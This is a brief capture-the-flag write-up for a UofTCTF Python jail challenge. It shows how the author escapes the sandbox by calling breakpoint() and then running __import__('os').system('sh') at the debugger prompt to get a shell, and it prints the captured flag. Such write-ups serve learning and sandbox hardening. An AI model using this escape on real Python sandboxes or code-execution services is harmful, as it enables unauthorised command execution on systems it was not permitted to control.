


# Baby's First Pyjail
> @windex told me that jails should be sourceless. So no source for you.

## About the Challenge
We got a server to connect and we can execute a python code there



## How to Solve?
To spawn a shell, I used this command which a combination of `breakpoint()` and executing `system()` command

```
>>> breakpoint()
--Return--
> <string>(1)<module>()->None
(Pdb) __import__("os").system("sh")
```



```
uoftctf{you_got_out_of_jail_free}
```